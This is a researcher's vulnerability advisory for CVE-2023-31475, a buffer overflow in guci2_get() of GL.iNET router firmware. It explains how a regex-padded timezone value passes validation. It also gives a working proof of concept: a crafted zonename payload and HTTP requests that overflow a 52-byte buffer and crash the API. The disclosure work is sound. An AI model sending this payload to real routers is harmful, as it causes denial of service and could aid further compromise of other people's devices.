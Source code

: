 ```yaml
---
title: 'CVE-2023-31475: Buffer Overflow in guci2_get() of libglutil.so'
date: 2023-05-18 00:00:03
tags: 
- security-research
- pwn
- iot
---
```


# [CVE-2023-31475](https://nvd.nist.gov/vuln/detail/CVE-2023-31475): Buffer Overflow in `guci2_get()` of `libglutil.so`
* **CVSS Score** - 9.0, Critical ([CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:C/C:H/I:H/A:H](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:C/C:H/I:H/A:H))
* **Overview** - The function `guci2_get()` found in `libglutil.so` has a buffer overflow vulnerability where an item is requested from a UCI context, and the value is pasted into a char pointer to a buffer without checking the size of the buffer.
* **Description** - The definition for the function `guci2_get()` is `int guci2_get(int context, char *item, char *storage)`. `libglutil.so` is used by various custom GL.iNET binaries, such as the API FastCGI binary located at `/www/api` in GL.iNET devices. This FastCGI binary relies on `guci2_get()` heavily, and makes several calls to that function. The `storage` variable is always declared inside `api` with a static buffer size, but that buffer size is never communicated to the `guci2_get()` function. Inside of `guci2_get()`, the code `sprintf(storage,"%s",*(ptr_to_value_retrieved_from_UCI_context))` is run, so if the value is longer than the buffer size, a buffer overflow occurs.
* **Impact**
    * An example of this buffer overflow vulnerability can be found in timezone functionality of the `/www/api` binary. The API endpoint that sets the timezone is `/api/router/timezone/set`, which only requires the `zonename` parameter.
    * This `zonename` parameter is escaped (to prevent command injection) and piped into the command `grep "%s" /usr/share/zoneinfo/tzdata.lua |awk -F"'" '{print $4}'`. If output is found, then the UCI value `system.@system[0].zonename` is set to the provided `zonename` parameter.
    * The actual vulnerability lies in the API endpoints that retrieve the `system.@system[0].zonename` value. The API endpoint with the HTTP path `/api/router/timezone/get` does this, and has the `guci2_get()` function copy the `zonename` value into a 52-byte buffer, meaning any valid `zonename` value over 52 characters long causes a buffer overflow.
    * A "valid" `zonename` value simply has to return chars from the command `grep "%s" /usr/share/zoneinfo/tzdata.lua |awk -F"'" '{print $4}'`. Since `grep` accepts regular expressions, this allows you to match a specific string, while making the input parameter infinitely long. For example, the Linux command `echo "abc" | grep "ab[czzzzzzzzz]"` will return the string successfully. Since you can put in an infinitely long amount of `z` characters, you can easily achieve a buffer overflow. 
    * Example of `zonename` value that is "valid" - `Asia/D[aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa]` (140 chars)
    * Note that this buffer overflow example doesn't lead to any malicious behavior or RCE since stack canaries present in the `api` executable prevent the attacker from overwriting the return address, and all other stack values are overwritten during function execution. However, this still leaves an attack vector open in other API endpoints or executables that rely on this function and either doesn't have stack canaries, or stack canaries can be bypassed.
    * Also note that various "valid" `zonename` values will cause the endpoints `/api/router/timezone/get` and `/api/router/app/status` to always return a 500 Internal Server Error response (Denial of Service) since the buffer overflow overwrites the stack canary, causing the `api` executable to exit early.

## Fix
This was not fixed, as the `guci2_get()` function still behaves the same way. Instead, the example I provided was fixed by setting `grep` to treat input as fixed strings and not regular expressions.

# PoC
```
======= REQUEST 1 =======
POST /api/router/timezone/set HTTP/1.1
Host: 192.168.8.1
Authorization: 80dafe40822e4a59b6daabd659617963
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 149

zonename=Asia/D[aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa]

======= RESPONSE 1 =======
HTTP/1.1 200 OK
Content-Type: application/json
Content-Length: 10
Connection: close
Date: Wed, 04 Jan 2023 00:29:13 GMT
Server: lighttpd/1.4.48

{"code":0}

======= REQUEST 2 =======
GET /api/router/timezone/get HTTP/1.1
Host: 192.168.8.1
Authorization: 80dafe40822e4a59b6daabd659617963
Connection: close


======= RESPONSE 2 =======
HTTP/1.1 200 OK
Content-Type: application/json
Expires: Wed, 04 Jan 2023 00:29:29 GMT
Cache-Control: max-age=1
Content-Length: 26750
Connection: close
Date: Wed, 04 Jan 2023 00:29:28 GMT
Server: lighttpd/1.4.48

{
    "zonename":"Asia\/D[aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaEET-2EEST,M3.5.5\/0,M10.5.5\/0", // the extra value `EET-2EEST,M3.5.5/0,M10.5.5/0` is added to the end of zonename since the timezone value is copied to the middle of zonename, and no null byte is found until after the timezone value
    "timezone":"EET-2EEST,M3.5.5\/0,M10.5.5\/0",
    "autotimezone":true,
    "systemtime":"Wed Jan  4 02:29:28 EET 2023",
    "timezone_list":[{"zonename":"Africa\/Abidjan","timezone":"GMT0"},...],
    "code":0
}
```